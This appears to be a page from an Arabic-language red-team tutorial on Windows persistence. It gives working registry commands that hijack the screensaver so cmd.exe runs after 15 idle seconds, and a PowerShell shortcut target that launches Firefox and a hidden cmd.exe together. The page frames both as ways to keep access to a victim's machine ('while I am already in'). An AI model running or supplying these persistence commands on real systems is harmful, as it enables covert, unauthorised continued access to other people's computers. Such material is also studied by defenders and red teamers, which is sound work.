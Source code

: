 <html>
<div dir="rtl" align="right">
بأختصار اذا ما استخدمت جهازك لمدة معينة رح تضهر لك شاشة سوداء. نقدر نستغلها كالأتي اول شي استخدم هذا الكوماند عشان نعدل على الملف الي رح يشتغل اذا ما تم استخدام الجهاز:
</div>
</html>

`reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v "SCRNSAVE.EXE" /t REG_SZ /d "cmd.exe" /f`

<html>
<div dir="rtl" align="right">
بعدين رح نعدل على كم ثانية اذا المستخدم ما اشتغل على الجهاز عشان يشغل لنا ال cmd.exe
</div>
</html>

`reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v "ScreenSaveTimeOut" /t REG_SZ /d "15" /f`

![](../../images/persistence/14.png)

<html>
<div dir="rtl" align="right">
انتضر شوي ورح تطلع لك ال cmd بنفس الوقت خلي ببالك انه في group policy لل screensavers في ال Active Directory
</div>
</html>

## `Demo:`

![](../../images/persistence/screen.gif)

`Leave your computer on, while I am already in ;)`
<html>
<body>
<iframe src="https://giphy.com/embed/1JyWrrkCIUQyQ" width="480" height="480" frameBorder="0" class="giphy-embed" allowFullScreen></iframe>
</body>
</html>

# .lnk Shortcuts

<html>
<div dir="rtl" align="right">
نقدر نسوي hijack لل Shortcuts وبهذه الطريقة اذا المستخدم شغل firefox رح يشتغل وبنفس الوقت رح يشغل برنامجنا. في ال properties عدل على ال target وحط فيه الكوماند الي تحت وعدل على خيار ال Run وحطه Minimized
</div>
</html>

`powershell.exe -c "invoke-item 'C:\Program Files\Mozilla Firefox\firefox.exe'; invoke-item c:\windows\system32\cmd.exe"`


![](../../images/persistence/16.png)
